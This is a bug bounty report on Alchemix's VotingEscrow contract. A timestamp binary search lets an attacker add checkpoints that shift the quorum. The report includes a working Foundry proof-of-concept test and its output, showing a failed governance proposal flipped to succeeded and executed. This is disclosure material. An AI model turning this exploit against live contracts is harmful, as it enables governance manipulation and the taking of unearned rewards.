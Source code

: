 
# Binary search does not correctly handle duplicate timestamps

Submitted on Thu May 02 2024 23:25:10 GMT-0400 (Atlantic Standard Time) by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30655

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Throughout the `VotingEscrow` contract, there are several functions that conduct a binary search to determine the first entry containing a timestamp that's before or equal to a target timestamp. In some of these functions, the binary search does not deterministically handle the scenario where multiple exact matches exist. By strategically checkpointing multiple times on a given timestamp, an attacker can inflate the relative amount of power the system considers them to have. This behavior can be abused to change the results of a governance proposal, or to receive more rewards than intended.

## Vulnerability Details
The `totalSupplyAtT()` function has the following binary search implementation:

```solidity
if (t < lastPoint.ts) {
    uint256 lower = 0;
    uint256 upper = _epoch - 1;

    while (upper > lower) {
        uint256 center = upper - (upper - lower) / 2;
        lastPoint = pointHistory[center];
        if (lastPoint.ts == t) {
            lower = center;
            break;
        } else if (lastPoint.ts < t) {
            lower = center;
        } else {
            upper = center - 1;
        }
    }

    lastPoint = pointHistory[lower];
}
```

Notice that in this function, the binary search is instantly concluded when a match is found. This behavior means that `totalSupplyAtT()` can potentially return *any* of the exact matches in the `pointHistory` mapping. This is incorrect. An example of a correct implementation would be something similar to `_balanceOfTokenAt()`, which always returns the "right-most" (i.e. most recent) exact match. 

This would not be a problem if each entry had a unique timestamp. However, there *can* be duplicate timestamps in the `pointHistory` entries (for example, notice how `_checkpoint()` will always increase `_epoch` by 1). On the other hand there *can't* be duplicate timestamps in the`checkpoints` mapping (for example, see the `_findWhatCheckpointToWrite()` function).

So, in the case of an exact timestamp match, the `getPastVotes()` and `balanceOfTokenAt()` functions always return the state when the timestamp ended, but the `totalSupplyAtT()` function can return any of the states from that timestamp. This leads to incorrect results in places that compare values from both functions (e.g. in the `claimable()` calculation in the `RevenueHandler`, or the `_quorumReached()` function in the `AlchemixGovernor`)

## Impact Details

Consider, for example, the following scenario:

- A proposal in the `AlchemixGovernor` has a snapshot timestamp at time `t`.
- At exactly time `t`, an attacker calls `checkpoint()` and then `createLock()` in the `VotingEscrow` contract.
- There are now two entries in `pointHistory` at timestamp `t` - one with the increased supply from `createlock()`, and one with the original supply.
- The `totalSupplyAtT()` function can return either one depending on the number of epochs. The attacker can force the original supply to be returned by arbitrarily adding more checkpoints (to change the result of the binary search).
- Now, the `_quorum()` value can be arbitrarily changed by calling `checkpoint()`. This means the governance can consider some proposals to have reached quorum, even though they did not.


Other than this, it appears that `RevenueHandler` logic can be tricked into giving a user too many tokens (more than 100% of the entire epoch even).


## References
See the proof of concept below.
        
## Proof of concept
## Proof of Concept

I've created the following test case which can be added to the `AlchemixGovernorTest` contract:

```solidity
function testBinarySearchExploit() public {
    /******************************************************************* 
    *    Step 1: someone makes a proposal
    ********************************************************************/
    assertFalse(voter.isWhitelisted(usdc));

    (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
    hevm.warp(block.timestamp + 2 days); // delay

    hevm.startPrank(admin);
    uint256 pid = governor.propose(t, v, c, d, MAINNET);
    uint256 proposalSnapshot = governor.proposalSnapshot(pid);
    address attacker = address(uint160(uint256(bytes32(keccak256("attacker")))));

    /*******************************************************************
    *    Step 2: the proposal snapshot timestamp arrives,
    *    attacker does the exploit
    ********************************************************************/
    hevm.roll(block.number + 1);
    hevm.warp(proposalSnapshot);

    uint256 quorumEstimate = governor.quorum(proposalSnapshot);
    veALCX.checkpoint();
    createVeAlcx(attacker, quorumEstimate * 55 / 100, MAXTIME, false);

    /******************************************************************* 
    *    Step 3: the voting period starts now, the quorum is broken
    ********************************************************************/
    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + governor.votingDelay() + 1);

    // Notice that the quorum can be changed by adding new checkpoints.
    // This is just for demonstration purposes. Doing exactly 5 checkpoints gets the attacker
    // back to the larger value (which out of their favor).
    for (uint256 i; i < 5; ++i) {
        veALCX.checkpoint();
        uint256 votingPower = veALCX.getPastVotes(attacker, proposalSnapshot);
        uint256 quorum = governor.quorum(proposalSnapshot);
        console2.log("votingPower:", votingPower);
        console2.log("quorum:", quorum);
        console2.log("attacker has enough voting power:", votingPower >= quorum);
        console2.log("-----------------------");
    }

    hevm.startPrank(attacker);
    governor.castVote(pid, 1);
    hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
    hevm.stopPrank();

    // Currently the vote has failed
    console2.log("Result before:", uint8(governor.state(pid)));

    // But checkpointing now will make it have succeeded
    veALCX.checkpoint();
    console2.log("Result after:", uint8(governor.state(pid)));

    // So now it can actually be executed despite not reaching quorum
    hevm.startPrank(admin);
    hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
    governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);
    hevm.stopPrank();

    assertTrue(voter.isWhitelisted(usdc));
}
```

By running `forge test --rpc-url <ETH_RPC_URL> --match-test testBinarySearchExploit -vvv` I get the following output:


```
[PASS] testBinarySearchExploit() (gas: 2244701)
Logs:
  votingPower: 42574534183000734522912
  quorum: 39346923145662095306947
  attacker has enough voting power: true
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 39346923145662095306947
  attacker has enough voting power: true
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 39346923145662095306947
  attacker has enough voting power: true
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 47861829982262242211529
  attacker has enough voting power: false
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 47861829982262242211529
  attacker has enough voting power: false
  -----------------------
  Result before: 3
  Result after: 4
```

which shows that a governance proposal can have its result manipulated.